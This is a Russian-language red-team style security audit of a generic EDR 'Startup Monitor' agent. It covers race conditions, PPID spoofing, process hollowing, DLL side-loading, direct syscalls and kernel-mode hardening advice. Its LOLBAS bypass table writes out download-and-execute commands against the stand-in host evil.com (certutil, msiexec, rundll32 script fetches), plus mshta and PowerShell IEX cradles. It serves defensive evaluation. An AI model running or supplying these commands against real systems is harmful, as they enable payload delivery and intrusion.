

# 🛡️ КРИТИЧЕСКИЙ АУДИТ БЕЗОПАСНОСТИ: STARTUP MONITOR (Архитектурный уровень)
**Классификация:** `CONFIDENTIAL — INTERNAL RED TEAM REVIEW`  
**Роль аудитора:** Principal Security Architect / EDR Core Developer  
**Дата:** 2024-12-19  
**Версия анализируемой архитектуры:** Generic Hybrid User/Kernel Mode Agent (Typical "Startup Monitor" class)

---

## 🎯 EXECUTIVE SUMMARY
**Общий вердикт:** **CRITICAL / HIGH RISK**  
Архитектура демонстрирует классические **TOCTOU (Time-of-Check-Time-of-Use) уязвимости**, **недостаточную валидацию контекста исполнения** и **проблемы с управлением привилегиями в IPC**. В текущем виде продукт **не обеспечивает гарантий защиты** против компетентного adversary (APT/Red Team), владеющего техниками *Living Off The Land* и манипуляцией объектами ядра.

> **Ключевой вывод:** Защита построена на *фильтрации событий* (Event Filtering), а не на *принудительном контроле* (Enforcement) в точке принятия решения ядром. Это фундаментальная архитектурная слабость.

---

## 1. АНАЛИЗ БРАНДМАУЭРА И УПРАВЛЕНИЯ СЕТЕВЫМ ТРАФИКОМ

### 1.1. Архитектура взаимодействия: `NetworkConnectionAlertService` ↔ `WindowsFirewallService`

### 1.2. Векторы атак: «Окно возможностей» (Race Window)

| Этап | Время (мкс) | Вектор атаки | Реализация (PoC Concept) |
| :--- | :--- | :--- | :--- |
| **1. Syscall Entry** | 0 | **Early Bird Injection / APC Queue** | Процесс создается в `SUSPENDED`, инжектируется код, `NtResumeThread`. Сетевой вызов происходит *до* того, как Agent успеет пройти `PsSetCreateProcessNotifyRoutine` -> UserMode Callback -> Cache Update. |
| **2. WFP Callout** | 5-50 | **TOCTOU на PID** | Агент проверяет `PID=42` в кэше. В это время `PID=42` завершается, ОС переиспользует PID для `svchost.exe` (Whitelist). Агент блокирует `svchost`. **Или наоборот:** Зловред получает PID доверенного процесса *после* проверки, но *до* применения правила. |
| **3. Rule Commit** | 100-5000+ | **WFP Latency / Rule Churn** | `INetFwPolicy2::Rules->Add` синхронен, блокирует поток. Под нагрузкой (1000+ новых процессов/сек) очередь забивается. Зловред просачивается в «тишине» до коммита правила. |

**Вердикт по п.1: 100% блокировка НЕ ГАРАНТИРУЕТСЯ.**  
*Причина:* User-mode enforcement через WFP Callout / Windows Firewall API **асинхронен** по отношению к системным вызовам процесса. Нет синхронизации на уровне `ETHREAD` / `KTHREAD`.

### 1.3. Уязвимости контекста процесса: PID Spoofing / Hollowing / Injection

#### Атака 1: **PPID Spoofing + Process Hollowing (The "Trusted Path" Bypass)**
1.  Атакующий запускает `cmd.exe` -> `powershell.exe` (Whitelisted path).
2.  Используя `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS`, подменяет родителя на `services.exe` (PPID Spoofing).
3.  `CreateProcess` с `CREATE_SUSPENDED` -> `NtUnmapViewOfSection` -> `WriteProcessMemory` (Shellcode/CLR) -> `SetThreadContext` -> `ResumeThread`.
4.  **Результат у Агента:**
    *   `ImagePath`: `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` ✅ (Whitelist)
    *   `CommandLine`: `-c "IEX (New-Object Net.WebClient).DownloadString(...)"` ⚠️ (Heuristics *may* catch)
    *   `ParentPID`: `SYSTEM` (services.exe) ✅ (Trusted Parent)
    *   **Memory:** **Compromised** (Hollowed). Агент видит *метаданные* легатимного процесса.

#### Атака 2: **DLL Proxying / Side-Loading в Whitelisted Process**
*   Целевой процесс: `msiexec.exe` / `dvcl.exe` / `vmtoolsd.exe` (подписанные, в Whitelist).
*   Метод: `AppInit_DLLs` (устарело, но работает), `KnownDLLs` hijack (требует SYSTEM), **DLL Search Order Hijacking** в папке приложения (Write access).
*   Агент видит чистый `msiexec.exe /i update.msi`. Сетевой трафик идет от доверенного PID.

#### Атака 3: **Direct Syscalls / Unhooked Network Stack**
*   Использование `HellsGate` / `SysWhispers` для вызова `NtConnect` / `NtDeviceIoControlFile` (AFD) **минуя User-mode Hooks** (если Агент хукает `ws2_32.dll` / `wsock32`).
*   Если Агент полагается *только* на WFP Callout — это сработает. Если Агент хукает User-mode API — **обход 100%**.

---

### 🛡️ РЕКОМЕНДАЦИИ ПО УКРЕПЛЕНИЮ (NETWORK)

1.  **Kernel-Mode Enforcement (Mandatory):**
    *   Перенести логику `Block/Allow` в **WFP Callout Driver (Kernel Mode)** на слое `FWPM_LAYER_ALE_AUTH_CONNECT_V4/V6`.
    *   Решение принимается *синхронно* внутри классификации callout'а. Никаких User-mode Round-trips.
    *   Кэш решений (Policy) синхронизируется из User-mode через `Ioctl` / `FltSendMessage` в **Read-Only Shared Memory Section** (Fast Path).

2.  **Binding к `EPROCESS` / `ETHREAD`, а не к PID:**
    *   В Callout'е использовать `FWPS_CONNECT_REQUEST0` -> `classifyIn->processId` -> `PsLookupProcessByProcessId` -> Получить `PEPROCESS`.
    *   Валидировать `SeLocateProcessImageName` / `PsGetProcessImageFileName` **прямо в ядре**.
    *   Использовать `PsGetProcessProtection` / `PsIsProtectedProcess` для оценки критичности.

3.  **Memory Integrity Checks (Kernel Callback):**
    *   Регистрировать `PsSetCreateProcessNotifyRoutineEx2` (Create/Exit).
    *   На этапе `Create` (после инициализации адресного пространства, до `ResumeThread`): Скаанировать VAD Tree (`MiEnumerateGenericTable` / `VadRoot`) на предмет:
        *   `MEM_IMAGE` секций с невалидными сигнатурами (Checksum mismatch).
        *   `MEM_MAPPED` / `MEM_PRIVATE` с `PAGE_EXECUTE_READWRITE` (RWX) — признак Hollowed/Injected.
        *   Модули (LDR), не подписанные Microsoft / Trusted CA.

4.  **Mitigation для PPID Spoofing:**
    *   Не доверять `ParentPID` из User-mode API.
    *   В Kernel Callout: `PsGetProcessInheritedFromUniqueProcessId` (надежнее) + проверка цепочки родителей до `System` / `Smss`.

---

## 2. АУДИТ ЭВРИСТИК БЕЗОПАСНОСТИ (CLI, WMI, AUTOGUARDS)

### 2.1. `AutoGuardEngine` / CLI Threat Heuristics: Обход через LOLBAS & ADS

#### Таблица обходов стандартных сигнатурных/эвристических правил

| Техника (LOLBAS/GTFOBins) | Вектор обхода эвристик | Почему срабатывает обход |
| :--- | :--- | :--- |
| **Alternate Data Streams (ADS)** | `malware.exe:payload.exe` -> `wmic process call create "cmd /c start \"\" \"C:\\Temp\\malware.exe:payload.exe\""` | Агент парсит `CommandLine` как строку. Путь до двоеточия валиден. `CreateProcessW` корректно запускает ADS. Путь в `ImagePath` (PEB) будет `C:\Temp\malware.exe:payload.exe` — часто не проверяется на `:`. |
| **`certutil.exe`** | `certutil -urlcache -split -f http://evil.com/payload.b64 payload.bin && certutil -decode payload.bin payload.exe` | Легатимный админ-тул. Аргументы `-urlcache`, `-decode`, `-split` редко в черных списках. Сетевой вызов идет от `certutil.exe` (Whitelist). |
| **`mshta.exe`** | `mshta.exe "javascript:var x=new ActiveXObject('WScript.Shell');x.Run('powershell -enc ...');close();"` | Запуск скрипта в памяти. Нет файла на диске. `CommandLine` содержит JS обфусцированный. Агент видит `mshta.exe` + `http://` или `javascript:` — если нет парсера JS — пропуск. |
| **`msiexec.exe`** | `msiexec /i http://evil.com/package.msi /q`   `msiexec /y C:\Temp\malicious.msi /q` | Установка пакета. Внутри MSI — Custom Actions (DLL/Exe/VBS/PS1) с правами SYSTEM (если `/i` от админа) или User. Трафик от `msiexec` (Trusted). |
| **`rundll32.exe`** | `rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:http://evil.com/sct")`   `rundll32.exe C:\Temp\mal.dll,EntryPoint` | Класси